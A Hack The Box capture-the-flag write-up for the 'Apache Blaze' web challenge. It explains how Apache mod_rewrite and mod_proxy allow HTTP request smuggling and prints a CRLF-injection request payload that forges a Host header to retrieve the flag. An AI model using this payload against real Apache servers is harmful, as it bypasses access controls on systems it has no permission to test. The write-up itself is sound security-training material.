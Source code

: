 ```yaml
---
clayout: ctf
title: Apache blaze
date: 2024-12-09
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Apache Blaze
      link: https://app.hackthebox.com/challenges/546
      thumbnail: /ctf/hack-the-box/challenges/web/apache-blaze/thumbnail.gif
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/546
          thumbnail: /ctf/hack-the-box/challenges/web/apache-blaze/pwned.png
---
```


## Challenge description

Step into the ApacheBlaze universe, a world of arcade clicky games. Rumor has it that by playing certain games, you have
the chance to win a grand prize. However, before you can dive into the fun, you'll need to crack a puzzle.

## Challenge overview

This challenge presents a web application that acts as a front-end for various arcade games. The application proxies
requests to a back-end server, which hosts the games. To access the games, users must provide the game name as a query
parameter.

![Apache Blaze - Overview](/ctf/hack-the-box/challenges/web/apache-blaze/overview.png)

## Code Review

### Apache Configuration (`httpd.conf`)

  ```apache
  RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
  ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"
  ```

The `RewriteRule` directs requests matching `/api/games/(.*)` to the back-end at `http://127.0.0.1:8080/?game=$1`,
with the `[P]` flag indicating proxying. `ProxyPassReverse` adjusts response headers for the client.

### Python Application (`app.py`)

```python
elif game == 'click_topia':
   if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
       return jsonify({
           'message': f'{app.config["FLAG"]}'
       }), 200
   else:
       return jsonify({
           'message': 'This game is currently available only from dev.apacheblaze.local.'
       }), 200
```

The application checks if the `game` parameter is `'click_topia'` and if the `X-Forwarded-Host` header equals
`'dev.apacheblaze.local'`. If both conditions are met, it returns a JSON response containing the flag.

### Vulnerability Analysis

The vulnerability arises from the interaction between `mod_rewrite` and `mod_proxy` in Apache, which can lead to HTTP
request smuggling. Specifically, improper input validation allows crafted requests to manipulate headers, causing the
back-end to misinterpret the request.

## Exploitation Steps

1. **Craft Malicious Request:**

   To exploit this, send a request that injects a newline (`%0d%0a`) to split headers, effectively smuggling a second
   request:

   ```
   GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
   ```

   This payload manipulates the request such that the front-end server interprets it as a single request, while the
   back-end sees two separate requests.

2. **Server Interpretation:**

    - **Front-End:** Processes the request up to the injected newline, treating it as a complete request.
    - **Back-End:** Interprets the portion after the newline as a new request with the `Host` header set to
      `dev.apacheblaze.local`.

3. **Flag Retrieval:**

   The back-end application, seeing the `Host` header as `dev.apacheblaze.local` and the `game` parameter as
   `click_topia`, returns the flag in its response:

   ```json
   {
       "message": "HTB{f4k3_fl4g_f0r_t3st1ng}"
   }
   ```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

## References

- [HTTP Request Smuggling - PortSwigger](https://portswigger.net/web-security/request-smuggling)
- [CVE-2023-25690 Proof of Concept](https://github.com/dhmosfunk/CVE-2023-25690-POC)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)